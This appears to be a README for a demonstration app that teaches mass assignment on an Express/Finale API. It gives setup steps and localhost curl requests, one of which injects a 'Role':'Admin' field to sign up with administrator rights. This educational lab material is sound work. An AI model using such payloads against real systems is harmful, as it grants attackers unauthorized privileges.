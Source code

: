 # Mass Assignment with Express and Finale

This application is a demonstration prototype just to show how to perform Mass Assignment attack.

## Setup

- Install

```
npm install
```

- Init database

```
NODE_ENV="dev" sequelize-cli db:migrate
```

- Run

```
NODE_ENV="dev" npm start
```

## Usage

- Signup as Visitor

```
DATA='{"Login":"hobbit","firstName":"Frodon","lastName":"Sacquet"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA' \
  http://localhost:3000/users
```

Look into the HTTP response: How to exploit Mass Assignment Attack ?

- Signup as Admin (using Mass Assignment Attack)

```
DATA='{"Login":"pwned","firstName":"pwned","lastName":"pwned","Role":"Admin"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

- Get all users

```
curl http://localhost:3000/users | jq
```
